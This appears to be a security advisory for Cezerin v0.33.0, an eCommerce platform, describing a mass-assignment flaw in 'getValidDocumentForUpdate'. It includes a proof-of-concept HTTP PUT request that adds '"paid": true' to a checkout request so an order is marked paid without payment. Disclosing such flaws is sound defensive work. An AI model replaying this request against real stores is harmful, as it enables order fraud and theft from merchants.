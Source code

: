 # Cezerin v0.33.0 unauthorized order information manipulation

## Detail
Cezerin is React and Node.js based eCommerce platform. The vulnerability locates at function `getValidDocumentForUpdate` in `src/api/server/services/orders/orders.js`. This function is for generating orders. However, it is found that certain internal attributes (e.g., `paid` and `tax`) in this function can be overwritten via a conflicting name from user-input. Hence, a malicious cumstoer can manipulate certain order status (i.e., payment status, tax) by adding additional attributes to user-input during checkout. 

```
	getValidDocumentForUpdate(id, data) {
		return new Promise((resolve, reject) => {
			if (Object.keys(data).length === 0) {
				reject(new Error('Required fields are missing'));
			}

			...

			if (data.paid !== undefined) {
				order.paid = parse.getBooleanIfValid(data.paid, false);
			}

```

## PoC
1. Add any item to the chart and checkout.
2. Add additional attributes (e.g., `paid`, `tax`) to the userinput field in the request.

```
PUT /ajax/cart HTTP/1.1
Host: localhost:3001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
content-type: application/json
Content-Length: 588
Origin: http://localhost:3000
Connection: close
Referer: http://localhost:3000/checkout
Cookie: _ga=GA1.1.1210659521.1568517952; referrer_url=s%3A.VIG3VwE%2BqzOTa%2FTXmMU1Tj1vO3ghrPfOD%2Bh3hQpJjnw; landing_url=s%3Ahttp%3A%2F%2Flocalhost%2F.tyZ3uwyR9gAuGEJzxP6kxtZ8cXlAsZTbPH6NKLaAhHk; order_id=s%3A5d8c1cea09fadf6772d41e3e.z1%2FfRRvDSKk04wLupmxf8r1NWouIFRXDL9cq9ibTH8Y

{"shipping_address":{"address1":"","address2":"","city":"SG","country":"SG","state":"SG","phone":"","postal_code":"","full_name":"","company":"","tax_number":"","coordinates":{"latitude":"","longitude":""},"details":null},"billing_address":{"address1":"","address2":"","city":"SG","country":"SG","state":"SG","phone":"","postal_code":"","full_name":"","company":"","tax_number":"","coordinates":{"latitude":"","longitude":""},"details":null},"email":"","mobile":"","payment_method_id":"5d7d501d0ee4e592b6cced84","shipping_method_id":"5d7d501d0ee4e592b6cced83","comments":"", "paid": true}
```

3. The status of the order is set as `paid` without payments.
![](Admin-Paid.png)

4. The shipping fee of the order is set as '1.11'.
![](User-Shipping_fee.png)

